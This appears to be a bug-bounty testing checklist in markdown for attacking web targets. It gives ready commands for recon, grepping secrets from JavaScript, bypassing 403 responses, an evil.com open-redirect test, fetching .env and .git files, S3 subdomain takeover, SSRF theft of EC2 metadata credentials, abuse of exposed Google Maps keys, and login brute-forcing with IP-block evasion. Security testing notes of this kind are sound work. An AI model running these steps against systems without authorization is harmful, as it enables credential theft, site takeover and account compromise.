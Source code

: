 ✓ ✗ ✔ ✘ ✅
For Recon : 
[ ] - Use this command under a folder named as Target
	```assetfinder --subs-only target.com >> recon.txt  
	subfinder -d target.com -silent >> recon.txt  
	amass enum -passive -d target.com >> recon.txt  
	sort -u recon.txt > final-subs.txt
	cat final-subs.txt | httpx -status-code -title -tech-detect -silent > live-subs.txt```
[ ] - Check for `robots.txt` and `sitemap.xml` for subdomains and directories
[ ] - Checking for Secrets in JS FIles
	1. Download all the JS Files present.
	2. Use the command to grep the secrets, keys and tokens : 		```
		cat js_files.txt | while read url; do curl -s $url >> all_javascript_dump.txt; done  
		grep -iE "apikey|token|secret|authorization|bearer" all_javascript_dump.txt```
[ ] - Bruteforce checking all JS Files : `ffuf -w common.txt -u https://target.com/assets/js/FUZZ`
[ ] - Always check User Agent for for Logs, it may give RFi
[ ] - Checking for 403 Forbidden : 
	[ ] - **Adding headers** (like `X-Forwarded-For`, `X-Originating-IP`)
	[ ] - **Trying HTTP methods** (`GET`, `POST`, `HEAD`, `OPTIONS`)
	[ ] - **Using URL encoding tricks** (`%2e`, `%2f`, etc.)
	[ ] - **Appending a dot (**`**.**`**) or a slash (**`**/**`**) at the end**
	[ ] - **Spoofing the Referer header** (`Referer: example.com/allowed-page`)
[ ] - Check for the parameter named `redirect` that is used to redirect the site to the internal sites and then try to pollute it like : `https://app.target.com/login?redirect=dashboard&redirect=https://evil.com`
[ ] - Required payloads to be tried once : 
	```curl https://target.com/config/settings_dev.json
	curl https://target.com/.env
	curl https://target.com/.git/config```
[ ] - Check for the Technology used in the website. If it's Wordpress then : 
	[ ]  -Try using a wp-scan with the API Key to get a full report.
	[ ] - Check the notes in INE-WAPT -> CMS Security Testing
	[ ] - 
[ ] - Check for AWS Buckets : 
	[ ] - Check CNAME using the command : `dig old-staging.target.com CNAME` . If the result looks like this : `old-staging.target.com.  300 IN CNAME  old-target-dev.s3-website-us-east-1.amazonaws.com.` Then use the command : `aws s3 ls s3://old-target-dev` to check for the existence of the bucket.
	If this has happened this shows that, the origin S3 bucket was gone, but is still present as the CNAME of the target. Now we can own the bucket under our account using the command : `aws s3 mb s3://old-target-dev` . Create a simple HTML Page to host the website. Upload it using the command : ```aws s3 website s3://old-target-dev --index-document index.html
	aws s3 cp index.html s3://old-target-dev/ --acl public-read```
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
[ ] - API Keys
	[ ] - Google Maps API Key Exposure Impact - 
		[ ] - Check with this command if we get any response or not : `curl "https://maps.googleapis.com/maps/api/geocode/json?address=Delhi&key=<exposed-key>" `      
		[ ] -  Check for High Billing Impact : 
		```for i in {1..10}; do
		curl "https://maps.googleapis.com/maps/api/geocode/json?address=New+York+$i&key=<exposed-apikey>"
		done```
		[ ] - Check for Directions API : `curl "https://maps.googleapis.com/maps/api/directions/json?origin=Delhi&destination=Mumbai&key=<exposed-apikey>"`
		 [ ] - Check for DistanceMatrix API : `curl "https://maps.googleapis.com/maps/api/distancematrix/json?origins=Delhi&destinations=Bangalore&key=<exposed-apikey>"`
		 [ ] - Check for Places API : `curl "https://maps.googleapis.com/maps/api/place/textsearch/json?query=restaurants+in+Goa&key=<exposed-apikey>"`
		 [ ] - Create an HTML Page and try to use the key and get the services running : Go check out the Google MAP API Key Exploitation Page
[ ] - Authentication Attacks : 
1. Brute-forcing the username to get a valid username by checking precisely over the response packets.
2. If the Server blocks your IP, then try to use a Header in the Response Packet named as `X-Forarded-For:` and use a Pitchfork Attack and provide this with a random number set. Keep an eye on the response use the settings like : Grep-by Match, Response Timing Delays.
[ ] - 


